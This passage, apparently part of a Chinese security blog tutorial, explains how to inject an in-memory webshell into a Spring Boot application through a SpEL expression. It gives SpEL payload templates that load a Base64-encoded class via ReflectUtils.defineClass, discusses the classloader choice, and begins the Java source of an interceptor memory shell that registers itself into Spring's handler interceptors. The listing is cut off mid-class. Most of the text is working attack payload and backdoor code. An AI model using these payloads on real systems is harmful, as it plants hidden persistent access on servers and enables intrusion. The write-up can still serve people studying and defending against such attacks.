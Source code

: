五、拖入小树林注入内存马
============

纯度宝典第五页，什么response问题我都不在意，我只需要加载我的内存马就足矣！  
这里有一个payload模板  
`#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}`  
自己简化后：  
`T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()`，接下来就逐步解析一下这个payload

defineClass
-----------

首先我们需要确认我们的目的，我们目的就是加载一个类，并且将其实例化。这里选择了springboot自带的工具类`ReflectUtils`，因为他识别base64字节，然后加载它。很方便。

ClassLoader
-----------

加载一个类需要指定classloader，我们肯定选定当前线程上下文的classLoader  
`T(java.lang.Thread).currentThread().getContextClassLoader()`  
第一个payload用到了Mlet这个类  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691303540140-1f9c2d71-a8d9-40f5-886f-af21b569c248.png#averageHue=%23302f2a&clientId=ufca30b7c-6586-4&from=paste&height=190&id=u4fdebebe&originHeight=237&originWidth=902&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=310641&status=done&style=none&taskId=u167a6f12-c09b-4d1e-8c62-3d3c03b75b6&title=&width=721.6)  
他实际上是URLClassLoader的实现类，所以我个人来说是不知道为啥选Mlet这个。我猜测是兼容问题，因为URLclassloader可以加载任意类吧。不管是远程还是本地的。这个地方注意一下。

内存马
---

内存马选用的话就springboot内存马就行了。我这里选了一个interceptor内存马

```java
import org.springframework.web.servlet.HandlerInterceptor;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;

public class InceptorMemShell extends AbstractTranslet implements HandlerInterceptor {

    static {
        System.out.println("staart");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
```